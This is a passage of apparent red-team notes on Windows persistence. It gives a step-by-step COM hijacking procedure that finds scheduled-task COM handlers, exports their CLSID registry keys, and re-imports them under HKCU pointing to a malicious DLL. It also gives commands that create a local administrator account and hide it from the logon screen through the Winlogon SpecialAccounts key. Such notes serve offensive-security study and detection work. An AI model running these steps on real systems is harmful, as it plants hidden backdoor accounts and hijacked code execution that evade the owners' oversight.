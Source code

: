     - Exists in HKLM
    - A user-mode process uses
    - Preferably has no corresponding entry in HKCU

1. How to find COM objects witch can be hijackable
   - something triggered at boot time or user logon
   - good candidate is task-scheduer
   - ```schtasks /query /xml > C:\path\to\output.xml``` list all tasks

- COM Registries
- HKEY_CLASSES_ROOT --> CLSID --> ...
- HKEY_CURRENT_USER --> Software --> Classes --> CLSID --> ...

2. Looking for: 
   - In Exec section looking for ```<ComHandler>``` with a ```<ClassId>``` (GUID)
   - And in Triggers section looking for ```<LogonTrigger>``` with a ```<Delay>```

3. Check COM obj in registry
   - ```reg query "HKCR\CLSID\{GUID}\..."```

4. After 3 you need found where lives these key if is in Local Machine ou Current User
   - Current User ```reg query "HKCU\software\classes\CLSID\{GUID}\..."```
   - Local Machine ```reg query "HKLM\software\classes\CLSID\{GUID}\..."```

5. Knowing where lives some key you can extract then
   - ```reg export "HKCR\software\classes\CLSID\{GUID}" C:\path\to\output.reg /reg:64 /y```

6. Finally with a maldll you can edit the saved registry adding new path of dll and then import back that
   - change HKEY path (if LM you put CU and vice-versa)
   - later change dll path
   - And then import ```reg import C:\path\output.reg /reg:64```



## High Privilege Level
>___


#### Local Account Create

- https://attack.mitre.org/techniques/T1136/001/

- create new account and add to administrator group

```
net user <USERNAME> <PASS> /add

net localgroup "Administrators" backup /add
```

- add user and hide from logon screen
```
net user <USERNAME> <PASS> /add

net localgroup "Administrators" backup /add

reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v <USERNAME> /t REG_DWORD /d 0 /f
```

